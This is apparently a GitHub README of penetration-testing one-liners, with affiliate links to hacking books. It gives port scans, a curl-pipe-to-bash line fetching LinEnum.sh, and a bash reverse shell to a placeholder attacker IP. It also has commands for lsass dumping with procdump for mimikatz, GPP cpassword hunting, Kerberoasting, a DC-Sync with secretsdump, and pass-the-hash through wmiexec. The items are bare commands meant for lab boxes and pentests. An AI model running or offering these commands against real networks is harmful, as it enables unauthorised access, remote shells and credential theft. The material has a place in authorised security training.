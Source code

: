 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>

<b>Find string with grep</b>
<ul>
  <li> grep -oP '(?<="InsertSearchString": ")[^"]*'
  
</ul>

<b>Run pingcastle fromt CMD </b>
<ul>
  <li> PingCastle.exe --server dc.local --user xxxx --password xxxx --healthcheck
  <li> PingCastle.exe --server x.x.x.x --export users --user domainuser --password domainpassword
  
</ul>

<b>Kerberos attacks </b>
<ul>
  <li> From a non-domain PC: python GetUsersSPN.py -dc-ip x.x.x.x bla.local/account:password -request
  <li> or from a domain joined PC python GetUsersSPN.py bla.local/account:password -request
  <li>
  <li> DC-Sync attack: python secretsdump.py bla.local/account:password@dc1.bla.local
  <li> if that works you can use python wmiexec.py bla.local/account@dc1.bla.local -hashes "insert hash"
</ul>

<b>Blacklist IP's when installing letsenscrypt</b>
180.188.243.95
79.137.68.184
134.122.89.242
144.126.198.24
51.81.245.138
45.142.96.48
168.151.165.42
180.149.11.253
119.12.180.71
18.170.66.210
161.35.246.138
51.75.141.254
46.246.122.80
34.220.105.216
185.220.100.247
104.129.18.188
154.47.30.167
84.247.116.160
45.87.212.76
104.244.209.36
34.248.137.227
54.247.57.72
37.19.210.17
66.115.189.222
51.81.46.212
135.148.100.196
96.9.246.196
5.181.234.134
104.166.80.40
104.166.80.254
45.56.71.92
79.125.7.88
66.115.165.233
